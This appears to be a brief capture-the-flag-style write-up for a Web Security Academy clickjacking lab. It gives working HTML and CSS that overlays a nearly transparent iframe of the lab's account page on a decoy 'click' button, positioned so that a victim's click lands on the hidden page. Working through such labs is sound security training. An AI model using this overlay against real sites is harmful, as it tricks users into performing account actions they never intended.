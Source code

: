 The problem is to set the correct CSS valus so the button is clicked, in this case these values worked:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:480px;
			left:90px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">click</button>
	</div>
	<iframe id="target_website" src="https://0a19006b043fc0ca803c0dd100220095.web-security-academy.net/my-account">
	</iframe>
</body>
```


